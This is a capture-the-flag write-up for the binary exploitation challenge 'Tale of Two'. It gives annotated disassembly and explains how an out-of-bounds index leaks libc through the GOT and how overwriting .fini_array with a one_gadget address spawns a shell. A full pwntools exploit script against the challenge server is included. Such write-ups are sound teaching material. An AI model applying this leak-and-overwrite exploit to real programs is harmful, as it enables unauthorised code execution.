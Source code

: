 # Tale of Two

Category: Binary Exploitation, ROP, fini_array
Created: Nov 8, 2020 3:59 PM
Points: 500
Solved: Yes
Subjective Difficulty: 🔥🔥🔥🔥

# WriteUp:

## 🔎 Research:

We are given a program that asks us where we want to read and gives us the value of this address in memory. Next, it asks where we want to write and what we want to write. Then, our 8bytes value are written to the specified address.

Lets reverse engineer the main function and see what it does:

```python
		[...]
		[...]
		1194:	e8 b7 fe ff ff       	call   1050 <__isoc99_scanf@plt>  
    1199:	48 8b 45 f0          	mov    rax,QWORD PTR [rbp-0x10]  # rax = input_decimal
    119d:	48 8d 14 c5 00 00 00 	lea    rdx,[rax*8+0x0]           # rdx = rax*8
    11a4:	00 
    11a5:	48 8d 05 2c 22 00 00 	lea    rax,[rip+0x222c]          # rax = (address) <var_buf_struct>
    11ac:	48 8b 04 02          	mov    rax,QWORD PTR [rdx+rax*1] # rax = input_decimal-te byte from <var_buf_struct>
    11b0:	48 89 c6             	mov    rsi,rax                   # rsi = rax
    11b3:	48 8d 3d 6a 0e 00 00 	lea    rdi,[rip+0xe6a]        # 2024 <_IO_stdin_used+0x24>
    11ba:	b8 00 00 00 00       	mov    eax,0x0
    11bf:	e8 7c fe ff ff       	call   1040 <printf@plt>         # printf(input_decimalte-te byte from <var_buf_dtruct>)
    11c4:	48 8d 3d 5e 0e 00 00 	lea    rdi,[rip+0xe5e]        # 2029 <_IO_stdin_used+0x29>
    11cb:	b8 00 00 00 00       	mov    eax,0x0                #
    11d0:	e8 6b fe ff ff       	call   1040 <printf@plt>      # where want to write
    11d5:	48 8d 45 f0          	lea    rax,[rbp-0x10]         #
    11d9:	48 89 c6             	mov    rsi,rax                # rsi = (addr)<input_var>
    11dc:	48 8d 3d 3d 0e 00 00 	lea    rdi,[rip+0xe3d]        # 2020 <_IO_stdin_used+0x20>
    11e3:	b8 00 00 00 00       	mov    eax,0x0
    11e8:	e8 63 fe ff ff       	call   1050 <__isoc99_scanf@plt>
    11ed:	48 8d 3d 52 0e 00 00 	lea    rdi,[rip+0xe52]        # 2046 <_IO_stdin_used+0x46>
    11f4:	b8 00 00 00 00       	mov    eax,0x0
    11f9:	e8 42 fe ff ff       	call   1040 <printf@plt>      # what want to write
    11fe:	48 8b 45 f0          	mov    rax,QWORD PTR [rbp-0x10]# rax = input_decimal
    1202:	48 8d 14 c5 00 00 00 	lea    rdx,[rax*8+0x0]         # rdx = rax*8
    1209:	00 
    120a:	48 8d 05 c7 21 00 00 	lea    rax,[rip+0x21c7]        # 33d8 <buf>
    1211:	48 01 d0             	add    rax,rdx                 #
    1214:	48 89 c6             	mov    rsi,rax                 # rsi = <var_buf_struct>+input_decimal-te bytesta 
    1217:	48 8d 3d 44 0e 00 00 	lea    rdi,[rip+0xe44]        # 2062 <_IO_stdin_used+0x62>
    121e:	b8 00 00 00 00       	mov    eax,0x0
    1223:	e8 28 fe ff ff       	call   1050 <__isoc99_scanf@plt> #scanf(?, <var_buf_struct>+input_decimal-te byte )
    1228:	b8 00 00 00 00       	mov    eax,0x0
    122d:	48 8b 4d f8          	mov    rcx,QWORD PTR [rbp-0x8]
    1231:	64 48 2b 0c 25 28 00 	sub    rcx,QWORD PTR fs:0x28
    1238:	00 00 
    123a:	74 05                	je     1241 <main+0xe8>
    123c:	e8 ef fd ff ff       	call   1030 <__stack_chk_fail@plt>
    1241:	c9                   	leave  
    1242:	c3                   	ret
```

So from this we can construct the following C-Code the program will probably look like:

```c

void* buf[n]; // in data segment

int main(){
	long int number;
	printf("Where do you want to read?");
	scanf("%ld", number); //long signed int decimal (4bytes)
	printf("%zx\n", buf[number]); // size_t hexadecimal (8bytes)
	
	printf("Where do you want to write?");
	scanf("%ld", number); // long signed int decimal (4bytes)
	
	printf("What do you want to write?");
	scanf("%zu", buf[number]); // size_t decimal (8bytes)s
}
```

## 📝 Vulnerability Description:

As we can supply a long signed int to where we want to read, we can read in negative direction too. A quick view at where [GOT](https://www.notion.so/GOT-e3101944e4cb498c9dcd337940fcecad) is located shows us, that GOT is almost completely next to buf. So we can read out the printf address from GOT as this is already resolved by first call to printf. So we can leak a libc_address.
Another structure we can reach from buf is the `.fini_array`. This structure contains pointers to functions that will be called when exiting the program and the global dtors are proceeded.
Thus allowing us to overwrite a `.fini_array` entry with a value we can control and ideally leads to a shell.

## 🧠 Exploit Development:

 The distance between buf and printf GOT entry is 40 bytes, so we need to access `-40/8=-5` entry from buf: `buf[-5]`.

With the printf address we can easily calculate libc_base by looking up the printf_offset in [libc_database](https://www.notion.so/Libc-Database-1299ef3982f34cc7afe0c7a03109172a): 

```c
printf_offset = 0x64e80
libc_base = printf_addr - printf_offset
```

Next, we use the tool called [one*_*gadget](https://www.notion.so/one_gadget-ef7f874242e54bd2af6fef360e2c66ae) to recieve a gadget that spawns a shell simply by calling it. 

![Tale%20of%20Two%204dc3de506bdd4759afe29e6635e3ed77/one_gadget_output.png](Tale%20of%20Two%204dc3de506bdd4759afe29e6635e3ed77/one_gadget_output.png)

We choose the gadget at address `0x4f322` .

Finally, we have to find a overwrite location that value will be called after we overwritten it. The `.fini_array` section contains such pointers to function that will be called at exit of the programm.

The `.fini_array` section is located -600bytes from buf, so the input where we wanna write is `-600/8=-75` . 

## 🔐 Exploit Programm:

```python
from pwn import *
import binascii

printf_offset = 0x64e80
one_gadget_addr = 0x4f322

fini_array_offset = 0x214a

p = remote("challenges.ctfd.io", 30250)

pause()

p.recvline() # Where do you want to read?
p.sendline("-5") # printf_addr
printf_addr = int.from_bytes(binascii.a2b_hex(p.recvline(keepends=False)), "big")
print("printf_addr: {0}".format(hex(printf_addr)))
libc_base = printf_addr - printf_offset
print("libc_base: {0}".format(hex(libc_base)))
one_gadget = libc_base + one_gadget_addr
print("one_gadget: {0}".format(hex(one_gadget)))

p.recvline() # Where do you want to write?
p.sendline("-75") #fini_array_start
p.recvline() # Waht do you want to write?
p.sendline(str(one_gadget))

p.interactive()
```

## 💥 Run Exploit:

![Tale%20of%20Two%204dc3de506bdd4759afe29e6635e3ed77/successfull_exploit.png](Tale%20of%20Two%204dc3de506bdd4759afe29e6635e3ed77/successfull_exploit.png)

**FLAG: nactf{a_l0n3ly_dt0r_4nd_a_sh3ll_tUIlF0jxW5aMXoGo}**

## 🗄️ Summary / Difficulties:

The main difficulty in this challenge is that we dont have any obvious options to overwrite our gadget with so we can call our gadget. There the `.fini_array` section is a good place to place our gadget address. The address of the `.fini_array` start can be found by inspecting with `readelf --sections ...` . 

## 🗃️ Further References:

- [ROP](https://www.notion.so/ROP-1fe7ddaabcfc44d6ae73745377e9007a)
- [.fini_array overwrite](https://www.notion.so/fini_array-overwrite-3c8f088a1ef248fb9c68d383101495e1)

## 🔨 Used Tools:

- [Pwndbg](https://www.notion.so/Pwndbg-2c0c6540dc5444559bb84545f6dbbd48)
- [one_gadget](https://www.notion.so/one_gadget-ef7f874242e54bd2af6fef360e2c66ae)
- [Libc-Database](https://www.notion.so/Libc-Database-1299ef3982f34cc7afe0c7a03109172a)

---

# Notes:

## Ideas

- overwrite got entry with other function
- overwrite __malloc_hook in libc_data_segment with other function
- overwrite __fini_array with our function

## Problems

- how can we get called our overwrite function if function that overwrites it is last call?

    → overwrite .fini_array (gets called at exit)

## Remember

.fini_array section start can be found at readelf section output.
.fini_array (or .dtos) entry in pwngdb called *__do_global_dtors_aux_fini_array_entry*
